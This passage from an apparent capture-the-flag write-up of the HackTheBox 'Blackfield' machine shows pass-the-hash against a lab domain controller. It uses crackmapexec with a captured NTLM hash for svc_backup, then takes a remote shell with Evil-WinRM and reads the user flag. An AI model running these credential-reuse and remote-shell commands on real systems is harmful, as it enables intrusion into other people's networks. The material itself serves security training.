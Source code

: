 ## Shell as svc_backup

Let's just quickly check if NTLM hash for `svc_backup` works using crackmapexec:

SMB Works:
```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
SMB         10.10.10.192    445    DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\svc_backup 9658d1d1dcd9250115e2205d9f48400d
```
WinRM works too:
```shell
cfx:  ~/Documents/htb/blackfield
→ crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
WINRM       10.10.10.192    5985   DC01             [*] Windows 10.0 Build 17763 (name:DC01) (domain:BLACKFIELD.local)
WINRM       10.10.10.192    5985   DC01             [*] http://10.10.10.192:5985/wsman
WINRM       10.10.10.192    5985   DC01             [+] BLACKFIELD.local\svc_backup:9658d1d1dcd9250115e2205d9f48400d (Pwn3d!)
```
Now that NTLM hash is working for user `svc_backup` we can use tools like pth-winexe or impacket suite's wmiexec, psexec, smbexec or Evil-WinRM which supports NTLM hash authentication.

Here, we will use [**Evil-WinRM**](https://github.com/Hackplayers/evil-winrm) tool since it provides easier upload/download functionality.

We get the shell as `svc_backup`:

```shell
cfx:  ~/Documents/htb/blackfield
→ evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
```
Grabbing `user.txt`:
```shell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> ls


    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        10/3/2020   3:31 PM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_backup\Desktop> Get-content user.txt
9a87f83707e7e9b*****************

```
